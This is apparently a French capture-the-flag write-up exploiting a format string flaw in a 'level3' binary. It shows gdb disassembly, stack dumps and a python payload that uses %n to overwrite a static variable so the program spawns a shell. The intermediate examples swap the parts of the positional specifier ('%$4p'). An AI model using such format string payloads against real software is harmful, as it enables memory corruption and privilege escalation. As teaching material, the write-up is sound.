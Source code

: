 En décompilant l'exécutable, on remarque que le programme compare une variable statique `m` à la valeur `0x40`. Il contient également un printf qui ne prend qu'un argument. Nous allons exploiter la faille format string.

L'objectif est d'utiliser les modifiers de `printf` pour écrire à l'adresse de la variable `m`, la valeur `0x40` et ainsi valider la condition qui exécutera un shell.

Pour comprendre la faille, voici quelques exemples. Exécutons `gdb` pour avoir une idée du fonctionnement de la stack :
```
> gdb level3
[...]
> (gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	    push   %ebp
   0x080484a5 <+1>:	    mov    %esp,%ebp
   0x080484a7 <+3>:	    sub    $0x218,%esp
   0x080484ad <+9>:	    mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

On break juste après l'exécution du `printf` pour observer la stack, puis on lance le programme.
```
> (gdb) b *0x080484da
[...]
> (gdb) r
```

Voyons avec un exemple simple, donnons en argument la chaine de caractère `AAAA` :
```
AAAA

> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```

On remarque que `printf` a écrit en mémoire notre chaine de caractère. Essayons maintenant d'utiliser le modifier `%p` qui sert à afficher l'adresse d'un pointer. Nous pouvons associer `%p` avec les modifiers `$4` qui sert à indiquer à `printf` qu'il faut utiliser le 4ème argument.
```
AAAA%$4p
AAAA0x41414141
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```

Si on raisonne de la manière dont `printf` s'exécute, il écrit d'abord `AAAA` en mémoire, puis affiche l'adresse du 4ème argument, qui est maintenant `0x41414141`.

Il est également possible d'écrire dans la mémoire grace au modifier `%n`. `%n` écrit simplemement le nombre de charactères qui ont été affichés par `printf`. En combinant `%n` avec les modifiers `$4`, on peut ainsi écrire une certaine valeur à une adresse donnée.
```
AAAA%$4n
AAAA
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```
Toujours dans la logique de `printf`, on imprime `AAAA`, puis, on écrit la valeur 0x04 (puisque 4 caractères ont été écrits), à l'adresse du 4ème argument, ici `0x41414141`. On a donc un `SEGFAULT` puisqu'il est impossible d'accéder à l'emplacement `0x41414141`.

Notre but est d'écrire `0x40` soit `64` en base 10, à l'emplacement mémoire de `m`. Pour connaitre son emplacement en mémoire, on éxecute :
```
> (gdb) Info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
L'adresse de `m` est donc `0x0804988c`

De manière abstraite, on peut représenter notre arguemtn de l'entrée standard de cette manière :
```
adresse_m + 60_caractères + %$4n
^           ^               ^
4 octets  + 60 octets (=64) écrire la valeur 64 à
                            l'adresse du 4ème argument
                            (adresse de m)
```
Si on exécutait `gdb` avec une commande comme celle ci, on obtiendrais un résultat similaire à celui-ci :
```
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x0804988c	0x41414141	0x41414141	0x41414141
            ^           ^
            adresse de  60 caractères A
            m
0xbffff520:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff530:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff540:	0x41414141	0x41414141	0x41414141	0x41414141
```
Nous utilisons `python` pour formatter notre input :
```
python -c 'print("\x8c\x98\x04\x08" + "A"*60 + "%4\$n")' > /tmp/input
```
Puis nous injectons notre input dans `level3` :
```
cat /tmp/input - | ./level3
```

